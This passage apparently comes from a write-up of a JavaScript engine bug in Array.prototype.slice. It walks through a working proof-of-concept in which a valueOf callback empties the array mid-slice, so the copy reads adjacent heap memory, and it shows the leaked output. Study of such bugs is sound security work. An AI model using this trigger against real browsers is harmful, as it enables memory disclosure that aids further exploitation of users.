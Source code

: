 **The Memory Corruption**:
- `startIndex = 0`, `count = 10`
- Array length is now 0 (modified by `valueOf()`)
- `memcpy` reads 10 JSValues starting from index 0
- Since the array is empty, this reads adjacent heap memory
- **Result**: Information disclosure vulnerability

---

## Exploitation Walkthrough

### Step-by-Step Attack Flow

1. **Setup Phase**
   ```javascript
   var a = [];
   for (var i = 0; i < 100; i++)
       a.push(i + 0.123);
   ```
   - Creates ArrayWithDouble type with 100 elements
   - Elements are stored contiguously in memory

2. **Trigger Phase**
   ```javascript
   var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
   ```
   - Initiates slice operation with malicious object as end parameter
   - Fast path validation passes (array appears normal)

3. **Exploitation Phase**
   - Parameter conversion calls `valueOf()`
   - Array length reduced to 0
   - `fastSlice` attempts to copy 10 elements from empty array
   - Adjacent memory leaked into result array

4. **Result**
   ```
   0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0
   ```
   - First two values: legitimate array data
   - Remaining values: leaked adjacent memory

### Visual Representation

```
Before valueOf():  [0.123][1.123][2.123]...[99.123] (length=100)
After valueOf():   [] (length=0)
memcpy reads:      [0.123][1.123][LEAKED][LEAKED][LEAKED]...
```

### Memory Leak Achievement

The PoC demonstrates a memory leak that reveals heap contents:

```
Output: 0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0
                    ^^^^^^^^^^^^^^^^
                    Leaked memory content
```
